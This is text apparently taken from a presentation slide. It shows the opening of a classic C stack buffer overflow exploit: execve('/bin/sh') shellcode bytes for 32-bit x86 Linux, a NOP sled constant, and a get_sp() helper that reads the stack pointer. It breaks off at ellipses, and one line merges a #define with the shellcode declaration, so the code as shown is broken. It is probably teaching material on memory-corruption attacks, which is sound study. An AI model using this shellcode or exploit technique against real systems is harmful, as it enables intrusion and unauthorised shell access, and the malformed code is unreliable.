

#include <stdlib.h>

#define DEFAULT_OFFSET 0
#define DEFAULT_BUFFER_SIZE 512
#define NOP 0x90 char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
    __asm__("movl %esp,%eax");
}

.
.
.